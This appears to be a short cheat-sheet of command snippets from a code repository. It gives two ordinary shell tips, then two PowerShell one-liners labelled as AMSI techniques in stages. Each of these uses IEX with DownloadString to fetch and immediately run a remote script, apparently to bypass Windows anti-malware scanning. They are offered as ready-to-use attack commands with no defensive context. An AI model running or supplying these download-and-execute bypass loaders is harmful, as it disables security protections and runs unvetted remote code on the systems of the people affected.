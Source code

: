 ### Add text to line
~~~
awk  '{print "http://" $1}' urls.txt
~~~
### Change permissions of folder (Linux)
~~~
sudo chmod +x $(find /PATH/)
~~~
## Stage One (AMSI Techniques)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageOne.ps1'); Invoke-StageOne
~~~
## Stage Two (AMSI .NET Techniques)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageTwo.ps1')
~~~

